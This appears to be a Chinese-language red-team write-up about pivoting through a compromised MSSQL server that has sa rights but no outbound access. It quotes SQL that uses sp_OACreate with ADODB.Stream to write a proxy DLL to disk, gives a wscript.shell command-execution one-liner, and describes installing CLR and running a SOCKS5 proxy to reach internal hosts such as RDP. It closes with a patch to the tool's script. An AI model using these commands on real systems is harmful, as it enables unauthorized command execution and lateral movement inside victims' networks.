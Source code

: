 ### 利用MSSQL突破网络限制

#### 0x01前言

在某次项目的内网环境中，获得了一个mssql的sa权限。开启xp_cmdshell执行命令，发现其不出网，也不能反连web服务器，且web服务器只能访问到数据库服务器的1433端口。鉴于此，可通过CLR功能，先上传一个代理dll文件(or 十六进制流)，执行后就可以把mssql作为代理访问到数据库服务器3389和其可访问的资源。

#### 0x02 步骤

使用[MssqlClient](https://github.com/blackarrowsec/mssqlproxy)连接数据库

- 上传dll

`upload reciclador.dll C:\windows\temp\reciclador.dll`

![](/Users/cate4cafe/工作/文章/利用mssql突破受限环境/media/1.jpg)

查看代码，可知改工具是利用了sp_OACreate存储过程来写入文件

```
"DECLARE @ob INT;"
"EXEC sp_OACreate 'ADODB.Stream', @ob OUTPUT;"
"EXEC sp_OASetProperty @ob, 'Type', 1;"
"EXEC sp_OAMethod @ob, 'Open';"
"EXEC sp_OAMethod @ob, 'Write', NULL, %s;"
"EXEC sp_OAMethod @ob, 'SaveToFile', NULL, '%s', 2;"
"EXEC sp_OAMethod @ob, 'Close';"
"EXEC sp_OADestroy @ob;" % (hexdata, remote))
```

#Tips：使用sp_OACreate调用wscript.shell执行系统命令

`declare @shell int exec sp_oacreate 'wscript.shell',@shell output exec sp_oamethod @shell,'run',null,'c:\windows\system32\cmd.exe /c ipconfig >> c:\users\public\1.txt'`

- 安装CLR

  ![](/Users/cate4cafe/工作/文章/利用mssql突破受限环境/media/2.jpg)

- 执行代理

  ![](/Users/cate4cafe/工作/文章/利用mssql突破受限环境/media/3.jpg)

  配置SOCKS5代理便可使用。实际利用中，如果不方便使用mssqlclient，可以照着脚本里的sql语句逐条执行。

  #### 0x03 坑

  复现过程中，最后一步报错"cannot establish connection",分析后发现作者提供的脚本第217行

  ```
  DECLARE @ip varchar(15); SET @ip=TRIM(CONVERT(char(15),CONNECTIONPROPERTY('client_net_address')))
  ```

  语句中的TRIM报错，TRIM不兼容mssql版本。需要根据实际更改。如：

  ```
  DECLARE @ip varchar(15); SET @ip=RTRIM(LTRIM(CONVERT(char(15), CONNECTIONPROPERTY('client_net_address'))))
  ```

  